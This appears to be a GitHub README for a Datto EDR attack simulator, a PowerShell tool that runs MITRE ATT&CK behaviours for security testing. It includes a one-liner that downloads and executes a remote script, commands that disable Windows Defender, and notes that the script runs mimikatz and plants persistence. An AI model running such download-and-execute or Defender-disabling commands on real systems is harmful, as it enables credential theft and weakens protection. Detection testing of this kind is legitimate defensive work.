 ## Datto EDR Behavioral Attack Simulator
**Platform:** Microsoft Windows 7+ or Server 2008+\
**Powershell Version:** 3.0+\
**.NET Version:** 4.5+

This script will execute several MITRE ATT&CK adversarial behaviors and add several footholds/Autoruns which are pointed at non-malware (calculator and cmd.exe).  The only malicous software run is mimikatz (steals passwords from memory) which will not persist.


The following command is all you need.  Run it on any windows system and it will download this script and execute it.  


> `[System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1")`


While the script will attempt to disable MS Defender in the evasion step, you may need to proactively disable your endpoint protection prior to running this initial command to let it through:

> `powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $true'`
> 
> `sc stop WinDefend`

Restore Defender:
> `sc start WinDefend`
> 
> `powershell.exe -command 'Set-MpPreference -DisableRealtimeMonitoring $false'`


### Example 2 (For use in batch or from cmd.exe):
If running from outside Powershell (like in cmd.exe or a batch script):
> `powershell.exe -ExecutionPolicy bypass -noprofile -nologo -command { [System.Net.ServicePointManager]::SecurityProtocol = [Enum]::ToObject([System.Net.SecurityProtocolType], 3072); Invoke-Expression (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/Infocyte/PowershellTools/master/AttackSim/attackscript.ps1") }`

### WARNING: This script will leave your system in a messy state. The cleanup script is not finished yet. Shouldn't cause a problem but expect random calculators and command prompts (our selected malware) to persist and return randomly.
